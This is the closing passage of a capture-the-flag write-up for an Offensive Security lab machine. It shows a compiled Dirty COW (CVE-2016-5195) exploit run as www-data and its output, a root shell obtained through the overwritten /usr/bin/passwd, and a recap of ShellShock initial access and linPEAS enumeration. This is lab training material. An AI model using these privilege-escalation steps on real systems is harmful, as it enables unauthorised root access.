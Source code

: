 Now that we have it compiled and ready to go let's run it:

```
www-data@ubuntu:/tmp$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap c5120000

madvise 0

ptrace 0
```

And finally run **/usr/bin/passwd**:

```
www-data@ubuntu:/tmp$ /usr/bin/passwd
root@ubuntu:/tmp# whoami
root
```

Heading over to the **/root** directory shows us that our **proof.txt** is there:

```
root@ubuntu:/root# wc -c proof.txt
33 proof.txt
```

<br>

With that we've completed this CTF!

![](images/sumo3.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Exploiting **ShellShock**, also known as **CVE-2014-6271** to gain initial access to the system
- Searching for privilege escalation vectors with **linPEAS**
- Exploiting a **PTRACE_POKEDATA** variant of **Dirty COW**, also known as **CVE-2016-5195** to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
